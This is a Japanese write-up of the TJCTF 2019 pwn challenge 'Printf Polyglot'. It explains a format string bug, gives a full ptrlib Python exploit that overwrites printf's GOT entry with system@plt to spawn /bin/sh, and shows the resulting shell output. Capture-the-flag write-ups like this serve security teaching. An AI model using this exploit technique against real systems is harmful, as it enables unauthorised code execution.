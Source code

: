 # [pwn 120pts] Printf Polyglot - TJCTF 2019
64ビットでRELROやPIEは無効です。
```
$ checksec -f printf_polyglot
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols     Yes	0		4	printf_polyglot
```
ソースコードも配られており、system関数が使われています。
```c
   if (date_enabled) {
      system("/bin/date");
   } else {
   ...
```
また、Format String Bugがありますが、その関数の終わりに強制的にセグフォします。
```c
void newsletter() {
   printf("Thanks for signing up for our newsletter!\n");
   printf("Please enter your email address below:\n");
   
   char email[256];
   fgets(email, sizeof email, stdin);
   printf("I have your email as:\n");
   printf(email);
   printf("Is this correct? [Y/n] ");
   char confirm[128];
   fgets(confirm, sizeof confirm, stdin);
   if (confirm[0] == 'Y' || confirm[0] == 'y' || confirm[0] == '\n') {
      printf("Great! I have your information down as:\n");
      printf("Name: Evan Shi\n");
      printf("Email: ");
      printf(email);
   } else {
      printf("Oops! Please enter it again for us.\n");
   }
   
   int segfault = *(int*)0;
   // TODO: finish this method, for now just segfault,
   // we don't want anybody to abuse this
}
```

同じemailが2回printfされるので、1回目でprintfのGOTアドレスをsystem@pltに変え、2回目で`system("/bin/sh")`が発動するようなコードを作りましょう。
ptrlibで一発ですね。

```python
from ptrlib import *

elf = ELF("./printf_polyglot")
sock = Process("./printf_polyglot")
plt_system = 0x4006e0

sock.recvuntil("Exit.\n")
sock.sendline("3")
sock.recvuntil("below:\n")

writes = {elf.got("printf"): plt_system}
payload = b'/bin/sh;`'
payload += fsb(
    pos = 24,
    writes = writes,
    written = len(payload),
    bs = 2,
    bits = 64
)
assert len(payload) < 0x100
sock.sendline(payload)
sock.sendline("Y")
print(payload)

sock.interactive()
```

systemの引数として認識されるemailにバッククオートが1つ入っていてsystemが失敗するので、始めは`/bin/sh;`でなく`/bin/sh;\``にする点に注意です。
```
$ python solve.py
...
id
                     AAAH `sh: 1: Is: not found
Great! I have your information down as:
Name: Evan Shi
sh: 1: Email:: not found
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
[ptrlib]$
```

# 感想
FSBにもはや敵なし。(嘘です)
